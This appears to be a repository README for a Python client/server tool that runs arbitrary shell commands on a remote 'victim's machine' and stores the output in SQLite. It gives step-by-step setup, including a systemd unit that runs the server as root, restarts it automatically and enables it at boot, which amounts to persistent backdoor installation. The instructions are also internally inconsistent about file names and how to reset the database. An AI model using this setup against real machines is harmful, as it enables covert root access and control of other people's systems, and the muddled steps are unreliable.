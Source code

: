 ## Requirements

To run this project, you will need the following:

Python 3.x installed on both the server and client machines.

SQLite3 (included with Python).

Basic knowledge of using a terminal or command line interface.


## Files Included

client.py: The client script to send commands to the server.

server.py: The server script to receive and execute commands.

createDb.py: A script to create the SQLite database and table.

view_Db.py: A script to view the contents of the database.

command_outputs.db: The SQLite database where command outputs are stored. (you should run the createDb.py on the terminal for this to show up).

 Windows: `python createDb.py` Linux/Mac: `python3 createDb.py`


## Step 1: Edit client.py

In the client.py file, update the IP address to the IP address of the server machine (victim's machine).

`client_socket.connect(('192.168.169.117', 12345)) #Example`


## Step 2: Run createDb.py

Run the create_db.py script on the client machine to create the SQLite database and table.

`python3 create_db.py`

You can delete this and create it again to reset the database.

`rm createDb.py`


## Step 3.1: Setup the Server

On the server machine, create a systemd service to ensure the server script runs on boot.

`sudo nano /etc/systemd/system/server.service`


## 3.2: Add the following content to the file
```
[Unit]

Description=Start Server Script

After=network.target


[Service]

ExecStart=/usr/bin/python3 /path/to/server.py

WorkingDirectory=/path/to/

StandardOutput=inherit

StandardError=inherit

Restart=always

User=root


[Install]

WantedBy=multi-user.target

Replace /path/to/ with the actual path where server.py is located.
```

## 3.3: Reload the systemd daemon and start the service:
```
sudo systemctl daemon-reload

sudo systemctl start server.service

sudo systemctl enable server.service
```

## Step 4: Running the Client

Run the command `python3 client.py` on your terminal while you are on your projects directory 

-> .../Desktop/client.py

Enter the command you want to execute on the server machine. The output will be displayed and stored in the SQLite database.


## Step 5: Reviewing the Database

To view the contents of the database, run the viewDb.py script on the client machine.

`python3 view_db.py`

This will print the stored command outputs.



That's all, you can find more commands for your needs in the text file I added named 'serverServiceCommand.txt' 
